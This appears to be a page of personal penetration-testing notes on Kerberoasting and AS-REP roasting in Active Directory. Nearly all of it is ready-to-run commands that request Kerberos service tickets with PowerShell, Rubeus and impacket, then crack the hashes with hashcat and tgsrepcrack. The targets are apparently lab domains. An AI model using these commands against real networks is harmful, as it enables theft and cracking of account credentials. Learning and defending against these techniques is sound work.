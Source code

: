 ### 23-Oct-23 Mon

https://github.com/nidem/kerberoast

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"
```

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```


```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```
hashcat --help | grep -i "Kerberos"
```
## AD Recon – AS-REP Roasting

https://juggernaut-sec.com/as-rep-roasting/

## ASREPRoast

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast#asreproast

```
impacket-GetUserSPNs -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

```
proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240
beyond.com/john
```

```
impacket-GetNPUsers -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt
-r /usr/share/hashcat/rules/best64.rule --force
```